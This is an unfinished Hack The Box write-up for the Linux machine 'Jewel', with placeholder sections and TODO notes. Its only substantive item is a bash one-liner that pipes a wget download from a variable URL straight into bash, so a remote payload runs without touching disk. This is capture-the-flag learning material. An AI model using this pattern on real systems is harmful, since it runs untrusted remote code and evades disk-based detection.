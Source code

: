```yaml
---
description: >-
  Zweilosec's writeup on the medium-difficulty Linux machine Jewel from
  https://hackthebox.eu
---
```


# HTB - Jewel

## Overview

![](../../.gitbook/assets/0-jewel-infocard.png)

Short description to include any strange things to be dealt with

TODO: finish writeup and clean up

## Useful Skills and Tools

### Execute a shell script payload without writing to disk

```bash
wget -O - -q $url:$port/$file | bash
```

* that extra \(`-`\) is important, don't leave it out!

#### Useful thing 2

* description with generic example
